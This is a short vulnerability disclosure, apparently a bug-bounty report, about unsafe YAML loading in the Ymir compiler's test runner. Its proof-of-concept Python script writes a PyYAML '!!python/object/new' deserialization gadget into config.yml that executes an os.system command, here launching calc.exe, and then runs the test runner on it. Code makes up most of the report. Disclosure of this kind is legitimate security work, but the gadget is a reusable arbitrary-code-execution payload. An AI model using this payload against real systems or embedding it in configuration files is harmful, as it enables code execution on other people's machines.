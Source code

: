 # Description

`Ymir-Test` contain the test of the ymir compiler are registered. They can be used to verify that the compiler does what is intended, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```python
import os

os.system('git clone https://github.com/GNU-Ymir/Ymir-Test')
os.chdir('Ymir-Test/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open('config.yml','w+').write(payload)

os.system('python3 run-test.py --test config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
